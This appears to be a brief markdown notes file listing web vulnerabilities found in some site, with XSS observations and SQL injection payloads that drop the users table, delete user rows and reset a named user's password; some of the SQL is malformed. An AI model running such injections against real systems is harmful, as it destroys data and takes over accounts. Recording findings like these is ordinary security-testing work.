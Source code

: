 ###1. XSS

- Password visible in browser address
- Creating user: 
```javascript
/script><script>
```
breaks site

- Upload site with hidden Javascript

###2. SQL Injection

- Drop table
```sql
'OR''=';DROP TABLE USERS // 1;DROP TABLE users
```
- Delete content of users
```sql
1;(DELETE * FROM users)
```
- Update password
```sql
1;UPDATE TABLE users SET password = "123" WHERE name="jake"
```

